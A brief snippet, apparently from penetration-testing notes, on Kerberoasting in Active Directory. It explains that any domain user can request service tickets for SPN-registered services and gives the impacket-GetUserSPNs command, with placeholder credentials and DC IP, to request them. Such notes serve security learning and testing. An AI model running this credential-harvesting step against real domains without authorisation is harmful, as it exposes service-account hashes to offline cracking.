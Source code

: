 Any domain user can request (TGS) for services registered with an SPN.

Requirements:
- any valid domain joined user creds
```shell
impacket-GetUserSPNs <domain>/<user>:<password> -dc-ip <DC_IP> -request


```
